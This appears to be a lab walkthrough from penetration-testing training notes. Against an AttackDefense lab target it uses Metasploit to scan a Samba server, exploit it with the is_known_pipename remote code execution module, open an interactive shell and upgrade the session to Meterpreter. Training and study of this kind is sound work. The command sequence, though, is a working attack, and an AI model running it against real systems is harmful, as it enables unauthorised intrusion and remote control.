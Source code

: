 # 🔬Samba - MSF Exploit

## Lab 1

>  🔬 [Vulnerable File Sharing Service](https://www.attackdefense.com/challengedetails?cid=178)
>
>  - Target IP: `192.234.251.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Samba 3.5.0 - Remote Code Execution](https://www.exploit-db.com/exploits/42060)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.234.251.3
setg RHOST 192.234.251.3
workspace -a samba3.5.0
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.234.251.3
```

![db_nmap -sS -sV -O 192.234.251.3](.gitbook/assets/image-20230416132052860.png)

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
info
# Description:
#   This module triggers an arbitrary shared library load vulnerability 
#   in Samba versions 3.5.0 to 4.4.14, 4.5.10, and 4.6.4. This module 
#   requires valid credentials, a writeable folder in an accessible 
#   share, and knowledge of the server-side path of the writeable 
#   folder. In some cases, anonymous access combined with common 
#   filesystem locations can be used to automatically exploit this 
#   vulnerability.
options
check
run
```

```bash
/bin/bash -i
```

![Metasploit - exploit/linux/samba/is_known_pipename](.gitbook/assets/image-20230416132216493.png)

- Shell to `Meterpreter` post exploitation

```bash
background # or CTRL+Z
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST eth1
run

sessions
sessions 2
```

![shell_to_meterpreter](.gitbook/assets/image-20230416132513575.png)

------

